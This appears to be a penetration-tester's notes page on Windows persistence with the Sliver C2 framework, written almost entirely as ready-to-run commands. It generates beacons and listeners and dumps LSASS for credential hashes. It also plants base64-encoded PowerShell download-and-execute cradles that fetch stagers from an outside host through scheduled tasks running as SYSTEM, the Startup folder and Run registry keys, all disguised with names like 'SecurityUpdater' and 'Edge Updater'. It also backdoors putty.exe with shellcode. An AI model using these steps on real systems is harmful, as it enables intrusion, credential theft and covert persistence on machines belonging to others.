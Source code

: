 # Persistance

Having access to a host with for example we can work on persistance by starting up with a beacon and listener.

```sh
generate beacon --http 10.10.14.120:9001 --skip-symbols --os windows -N http-beacon-9001
```

And the listener

```sh
http -L 10.10.14.62 -l 9001
```

When running as an Administrator

* `info` = get info
* `interactive` = Create session then `use <session id>`
* `getsystem` = Spawn a new session running as NT
* `hashdump` = `use <session id>` then get hashes.

Or dump LSASS

```sh
# Dump LSASS
sliver (http-beacon) > ps -e lsass

 Pid   Ppid   Owner                 Arch     Executable   Session 
===== ====== ===================== ======== ============ =========
 660   524    NT AUTHORITY\SYSTEM   x86_64   lsass.exe    0
 
sliver (http-beacon) > procdump --pid 660 --save /tmp/lsass.dmp

[*] Process dump stored in: /tmp/lsass.dmp

# Pypykatz
pypykatz lsa minidump /tmp/lsass.dmp 
```

## Persistance

We can achieve persistance with running scheduled task or other methods that runs every once in a while.

{% hint style="info" %}
Usin g WMI events by having a "normal" spawn of `calc.exe`, for example, can open the calculator application and start the `http-beacon.exe` file
{% endhint %}

See for more techniques [https://attack.mitre.org/tactics/TA0003/](https://attack.mitre.org/tactics/TA0003/).

### <mark style="color:yellow;">Scheduled tasks</mark>

Preparing our payload for scheduled tasks we have to encodig to UTF-16LE as powershell uses this.

```powershell
echo -en "iex(new-object net.webclient).downloadString('http://10.10.14.120:8088/stager.txt')" | iconv -t UTF-16LE | base64 -w 0
aQBlAHgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADYAMgA6ADgAMAA4ADgALwBzAHQAYQBnAGUAcgAuAHQAeAB0ACcAKQA=
```

Now we can use schtaks cmdlet to create a task. We call it SecurityUpdate:

* `/sc` = schedule frequency
* `/mo` = frequency of repeating taks
* `/tn` = name of taks
* `/ru` = user context under which task runs

```sh
sliver (http-beacon) > execute powershell 'schtasks /create /sc minute /mo 1 /tn SecurityUpdater /tr "powershell.exe -enc aQBlAHgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADYAMgA6ADgAMAA4ADgALwBzAHQAYQBnAGUAcgAuAHQAeAB0ACcAKQA=" /ru SYSTEM'
```

### <mark style="color:yellow;">Logon activity</mark>

Once a user logs in to the operating system, a specific payload is executed. We can insert a backdoor activity into the `Startup` folder and registry. Each user's Startup folder is in `C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`. If we drop a file here, the file will be executed every time the user logs in.

```powershell
sharpersist -- -t startupfolder -c \"powershell.exe\" -a \"-nop -w hidden iex(new-object net.webclient).downloadstring(\'http://10.10.14.62:8088/stager.txt\')\" -f \"Edge Updater\" -m add
```

### <mark style="color:yellow;">Run and RunOnce</mark>

Specify a program when a user logins by editing registry.

<details>

<summary>Registry items</summary>

* HKCU\Software\Microsoft\Windows\CurrentVersion\Run
* HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
* HKLM\Software\Microsoft\Windows\CurrentVersion\Run
* HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

</details>

```sh
sharpersist -- -t reg -c \"powershell.exe\" -a \"-nop -w hidden iex(new-object net.webclient).downloadstring(\'http://10.10.14.62:8088/staged.txt\')\" -k \"hklmrun\" -v \"AdvancedProtection\" -m add
```

### <mark style="color:yellow;">Backdoor</mark>

Using the backdoor function in Sliver we can bakdoor binaries like putty.exe to run our shellcode. It can alter behaviour of the binary so that it wont even start.

```sh
# New profile
sliver (http-beacon) > profiles new --format shellcode --http 10.10.14.62:9002 persistence-shellcode
[*] Saved new implant profile persistence-shellcode

# HTTP Listener
sliver (http-beacon) > http -L 10.10.14.62 -l 9002
[*] Starting HTTP :9002 listener ...
[*] Successfully started job #3

# Create backdoor
sliver (http-beacon) > backdoor --profile persistence-shellcode "C:\Program Files\PuTTY\putty.exe"
[*] Uploaded backdoor'd binary to C:\Program Files\PuTTY\putty.exe
```
